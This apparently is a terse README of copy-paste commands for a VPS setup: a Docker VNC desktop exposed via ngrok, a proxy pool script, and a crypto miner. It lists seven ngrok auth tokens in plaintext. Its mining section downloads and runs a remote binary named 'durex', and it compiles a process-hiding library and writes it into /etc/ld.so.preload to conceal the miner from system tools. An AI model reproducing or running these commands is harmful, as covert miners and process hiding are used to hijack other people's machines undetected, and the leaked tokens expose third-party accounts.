 # creat vps docker vnc : 
- install docker : apt install -y apt-transport-https ca-certificates curl software-properties-common && curl -fsSL https://download.docker.com/linux/ubuntu/gpg | gpg --dearmor -o /usr/share/keyrings/docker-archive-keyring.gpg && echo "deb [arch=amd64 signed-by=/usr/share/keyrings/docker-archive-keyring.gpg] https://download.docker.com/linux/ubuntu $(lsb_release -cs) stable" | tee /etc/apt/sources.list.d/docker.list > /dev/null && apt update && apt install -y docker-ce docker-ce-cli containerd.io && usermod -aG docker $USER && service docker restart
- docker run -it --rm -p 6080:80 -p 5900:5900 dorowu/ubuntu-desktop-lxde-vnc
- wget https://bin.equinox.io/c/bNyj1mQVY4c/ngrok-v3-stable-linux-amd64.tgz && tar -xf ngrok-v3-stable-linux-amd64.tgz && ./ngrok config add-authtoken 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5
- ./ngrok http 6080
   
   token ngrok :
- 2TtAcvy5faRWDPlmnbt2tauuMfy_J8rCNerKtLqLeJqrMTGY
- 2TY9j0ZPVtJfGB3HQPVxoIAcKR6_2sqBzNTKDZnacRm9hJtFK
- 2U9omfblkr1JR4VhgmIQwk0XkaP_2MRDsYsLaWzj2ouhqVCaY
- 2UEc6WUEbjbA3JpjmWfem5IZFzK_6EyQFfMJ1amaocetmur7q
- 2UbN0YLLgdPR7xDmmkMPtaTMxRd_7YiSYjH3rcoXKt5goPE6Q
- 2eqK7m0aHI98zyKc5kutUVwk5xe_44hNpSjdL1HSGtftH5dso
- 2eqKuowsYAQzDkn0uAG8WWxxfTy_4MWVSLvDjfSCWgPsQVbm5

  create proxy pool :
  kill port : apt-get install psmisc -y && fuser -k 4050/tcp
- wget https://raw.githubusercontent.com/bulboni/minware/main/proxm.py && nohup python3 proxm.py
  
  step mining :
- hide miner no gcc: git clone https://github.com/cihuuy/libn && cd libn && apt install gcc -y && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
- hide miner wiht gcc: git clone https://github.com/cihuuy/libn && cd libn && gcc -Wall -fPIC -shared -o libprocess.so processhider.c -ldl && mv libprocess.so /usr/local/lib/ && echo /usr/local/lib/libprocess.so >> /etc/ld.so.preload
  download and runing miner 2 core :
wget https://github.com/bulboni/minware/raw/main/durex && wget https://raw.githubusercontent.com/bulboni/sumocn/main/config.json && chmod +x durex && ./durex
